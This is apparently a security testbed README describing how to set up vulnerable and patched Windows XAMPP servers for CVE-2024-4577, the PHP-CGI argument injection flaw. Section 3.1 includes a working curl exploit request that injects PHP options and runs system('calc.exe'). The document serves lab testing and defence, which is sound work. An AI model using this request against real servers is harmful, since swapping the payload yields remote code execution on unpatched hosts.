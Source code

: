 # PHP RCE Via CGI Argument Injection (CVE-2024-4577)

This file describes how to setup a windows php environment that is
vulnerable (and not vulnerable) to CVE-2024-4577.

## Vulnerability Details
When using Apache and PHP-CGI on Windows, if the system is set up to use certain code pages, Windows may use "Best-Fit" behavior to replace characters in command line given to Win32 API functions. PHP CGI module may misinterpret those characters as PHP options, which may allow a malicious user to pass options to the PHP binary being run, allowing to achieve RCE.

This vulnerability affects the following versions of PHP installed on the Windows operating system:

**Affected PHP Versions**
:-----:|
PHP 8.3 < 8.3.8
PHP 8.2 < 8.2.20
PHP 8.1 < 8.1.29

## Testbed Setup
The setup has been tested on a Windows 10 installation `10.0.19045 N/D build 19045` virtualized using `QEMU`. It should work on any Windows 10 installation.

The setup works in three steps:

1. The system locale of the operating system is changed to Japanese. 

2. A specific version of XAMPP is downloaded (8.1.25 / PHP 8.1.25)

3. The apache configuration is changed to enable or disable PHP-CGI.

To have a vulnerable configuration, the PHP-CGI feature must be enabled.

To have a non-vulnerable configuration, the PHP-CGI feature must be disabled.

### 1. Change system locale

The following powershell code can be used to change the system locale to Japanese

```
Set-WinSystemLocale -SystemLocale "ja-JP"
```

After the system locale has been changed, a restart is needed to apply the changes

```
Restart-Computer
```

To check that the Japanese locale has been correctly set, execute the
`chcp` command and make sure to obtain the value `932`.

### 2. Download XAMPP

The next step then is to download version `8.1.25` of the XAMPP
project from the following URL:
- https://www.apachefriends.org/download.html

The following screenshot shows the version to download.

![image](img/xampp-download.png)

Notice the SHA1 fingerprint of the installer, which should be
`51535424fe7a89ed27e566ac4d357e9d7930cef4` and can be computed with
the following command.

```
Get-FileHash -Path .\xampp-windows-x64-8.1.25-0-VS16-installer.exe -Algorithm SHA1
```

During the XAMPP installation process, it is necessary to install only
the `apache` and `php` components.

![image](img/xampp-install.png)

After the installation has finished, start the XAMPP controller by
executing the `xampp-control.exe` program within the main
installation folder.

![image](img/xampp-control.png)

At this point, it is possible to choose whether to create a vulnerable testbed or a not vulnerable tested.

### 3.1 Vulnerable Testbed Setup
To create a vulnerable testbed, modify the default configuration of Apache. 

Specifically, modify the `httpd-xampp.conf` as shown in the following screenshot.

![image](img/xampp-access-conf.png)

and uncomment the PHP-CGI section.

![image](img/xampp-vulnerable-conf.png)

Then press start, and the server will listen on the port 8080. 

The following request will exploit the vulnerability and trigger the RCE, spawning a `calc.exe` on the windows target. Change `<IP>` with the IP address of the server.

```
curl -X POST "http://<IP>/?%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('calc.exe');?>"
```

### 3.2 Non-Vulnerable Testbed Setup
To create a non-vulnerable testbed, leave the default configuration as it is, and simply start the server. If the configuration has been previously modified, make sure to comment the PHP-CGI section in order to disable it.

![image](img/xampp-not-vulnerable-conf.png)

## References
* https://nvd.nist.gov/vuln/detail/cve-2024-4577
* https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/
* https://github.com/watchtowrlabs/CVE-2024-4577
